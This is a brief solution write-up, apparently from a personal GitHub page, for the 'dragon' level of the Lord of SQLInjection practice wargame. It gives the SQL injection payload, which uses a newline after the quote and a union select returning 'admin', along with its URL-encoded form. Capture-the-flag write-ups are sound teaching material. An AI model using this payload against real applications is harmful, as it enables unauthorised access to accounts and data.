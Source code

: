 ```yaml
---
layout: default
title: dragon
---
```


# Lord of SQLInjection dragon Solution

The payload will be 
```
'
and 0 union select 'admin'--%0b
```

notice the \n between `'` and `and`

the encoded payload is `%27%0Aand%200%20union%20select%20%27admin%27--%0b`